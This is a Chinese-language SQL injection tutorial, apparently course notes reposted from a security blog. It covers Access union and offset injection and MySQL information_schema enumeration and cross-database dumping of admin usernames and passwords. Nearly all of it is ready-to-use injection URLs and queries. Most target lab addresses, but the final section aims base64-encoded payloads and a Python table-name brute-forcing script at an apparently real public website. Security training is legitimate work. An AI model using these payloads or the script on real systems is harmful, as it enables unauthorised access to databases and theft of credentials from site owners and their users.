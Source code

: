 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721056176176-4e35cac3-9bee-4005-9cd5-a9907599efe7.png)

```plain
#知识点：
1、脚本代码与数据库前置知识
2、Access数据库注入-简易&偏移
3、MYSQL数据库注入-简易&权限跨库

#前置知识：
-SQL注入漏洞产生原理分析
-SQL注入漏洞危害利用分析
-脚本代码与数据库操作流程
-数据库名，表名，列名，数据
-数据库类型，数据库用户，用户权限

脚本代码在实现代码与数据库进行数据通讯时（从数据库取出相关数据进行页面显示），将定义的SQL语句进行执行查询数据时。其中的SQL语句能通过参数传递自定义值来实现控制SQL语句，从而执行恶意的SQL语句，可以实现查询其他数据（数据库中的敏感数据，如管理员帐号密码）。这一个过程就可以叫做SQL注入漏洞。
```

- ASP+Access-简易注入-字典猜解

```plain
漏洞产生根本条件：可控变量 特定函数
http://192.168.46.160:85/Production/PRODUCT.asp
http://192.168.46.160:85/Production/PRODUCT.asp?id=1513
如果下面的URL地址测试注入判断id有注入，手工测试该如何进行？
http://192.168.46.160:85/Production/PRODUCT.asp?id=1513&page=1
http://192.168.46.160:85/Production/PRODUCT.asp?page=1&id=1513
Production/PRODUCT.asp?id=1513 注入语句&page=1 对
Production/PRODUCT.asp?id=1513&page=1 注入语句 错

SQL注入攻击流程：
1、猜测数据库类型
2、根据类型选择思路

ACCESS 独立存在
数据库名
             表名
                     列名
                            数据

第一步查询表明，第二步查询列名

http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513%20order%20by%2022   正确
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513%20order%20by%2023 错误

查询到22个字段，然后进行组合：
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 from admin
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721056174934-0d0edae3-385a-432e-8e89-1fd010737315.png)

```plain
admin只能靠猜测才能得到，
admin字段跟password字段也只能靠猜测才能得到。
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,admin,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from admin
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721056175483-69aaf6d2-58bd-48f0-a431-ec4b6f72d293.png)

由于Access数据库特性导致这个SQL注入是需要借助字典去猜解表名和列名的，那么就会出现表名或列名猜解不到，可以自定义社工字典或采用偏移注入！

- ASP+Access-偏移注入-报错显示

```plain
偏移注入就是解决表名已知，列名未知的情况！
https://www.fujieace.com/penetration-test/access-offset-injection.html
用*号去替换一个字段
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,* from admin
逐渐减少字段，直到正确
当减到16的时候正常：
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,* from admin
那么*号代表6个
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,5,6,7,8,9,10,a.id,b.id,* from (admin as a inner join admin as b on a.id = b.id)
这样注入就会随机爆出字段（源代码）
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721056175233-8081b93e-1aeb-4e5d-a55a-659bece6b156.png)

二级偏移：http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,a.id,b.id,c.id,* from ((admin as a inner join admin as b on a.id = b.id)inner join admin as c on a.id=c.id)

- PHP+MYSQL-简易注入-存储特性

```plain
MYSQL 统一管理
最高数据库用户=root用户
数据库A=网站A=数据库用户A
         表名
                       列名
                                       数据
数据库B=网站B=数据库用户B
数据库C=网站C=数据库用户C

为了网站和数据库的安全性，MYSQL内置有ROOT最高用户，划分等级，每个用户对应管理一个数据库，这样保证无不关联，从而不会影响到其他数据库的运行。
MYSQL两种思路：
	非ROOT的注入攻击：常规类的猜解
	ROOT用户的注入攻击：文件读写操作，跨库查询注入等
黑盒测试中可以采用user()获取当前用户权限，白盒中看连接用户即可！

MYSQL5.0以上版本：自带的数据库名information_schema
information_schema：存储数据库下的数据库名及表名，列名信息的数据库
information_schema.schematas:记录数据库信息表
information_schema.tables：记录表名信息的表
information_schema.columns：记录列名信息表


获取相关数据：
1、数据库版本-看是否符合information_schema查询-version()-5.5.53
2、数据库用户-看是否符合ROOT型注入攻击-user()-root@localhost
3、当前操作系统-看是否支持大小写或文件路径选择-@@version_compile_os-win
4、数据库名字-为后期猜解指定数据库下的表，列做准备-database()-syguestbook
获取数据库用户和版本：
http://127.0.0.1:8081/web/mysql/news.php?id=2  UNION ALL SELECT user(),version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721056174961-d24a2a50-cc6b-4d85-bbcc-31bc80875d67.png)

http://127.0.0.1:8081/web/mysql/news.php?id=2  UNION ALL SELECT database(),@@version_compile_os,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721056175489-b92cdacf-981b-4a5f-95e1-305ca5039bd9.png)

```plain
ROOT类型攻击-猜解数据，文件读写，跨库查询
如果显示一部分，用到group_concat函数就可以显示全部
获取syguestbook数据库下面的表名信息：
UNION SELECT table_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.tables where table_schema='syguestbook'
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721056175466-f93597c7-4b33-477a-9a61-1e61ee0aec4c.png)

```plain
获取表名sy_adminuser的列名信息：
UNION SELECT column_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.columns where table_name='sy_adminuser' and table_schema='syguestbook'
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721056176153-65dfdd91-2cd4-4015-8944-ec0d40b3d72f.png)

```plain
获取指定数据：
UNION SELECT username,password,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from sy_adminuser
```

- PHP+MYSQL-跨库注入-权限属性

```plain
跨库注入：实现当前网站跨库查询其他数据库对应网站的数据
获取当前mysql下的所有数据库名
UNION SELECT schema_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.schemata
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721056175974-b251841a-fcc5-46b9-87b2-05577d6495d4.png)

```plain
获取数据库名xhcms下的表名信息
UNION SELECT table_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.tables where table_schema='xhcms'
获取数据库名xhcms下的表manage下的列名信息：
UNION SELECT column_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.columns where table_name='manage' and table_schema='xhcms'
获取指定数据：
UNION SELECT user,password,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from xhcms.manage
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721056176092-3d1d3cd6-1a76-477f-aeec-36d9506e8625.png)

```plain
http://www.comresearch.org/researchDetails.php?id=MD=
爆数字：
http://www.comresearch.org/researchDetails.php?id=MSB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNw==

http://www.comresearch.org/researchDetails.php?id=MSB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLDMsdmVyc2lvbigpLHVzZXIoKSw2LDc=
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721056175859-1ee661a4-b7f6-4bd1-a7c6-f10202dea8e8.png)

```plain
版本不对，这个时候只能暴力破解
脚本代码：
import requests
import base64
url='http://www.comresearch.org/researchDetails.php?id='
sqlin='1 union select 1,2,3,4,5,6,7 from '
for lieming in open('common-tables.txt'):
    lieming=lieming.strip()
    s=sqlin+lieming
    ss=base64.b64encode(s.encode('utf-8'))
    #print(lieming)
    sqlins=url+ss.decode('utf-8')
    #print(sqlins)
    sss=requests.get(sqlins)
    if 'Warning' in sss.text:
        print('失败')
    else:
        print('成功')
        print(sqlins)
```





来自: [安全的小菜鸡 - 第24天：WEB攻防-通用漏洞&SQL注入&MYSQL跨库&ACCESS偏移](http://www.mumuxi8.com/?id=27)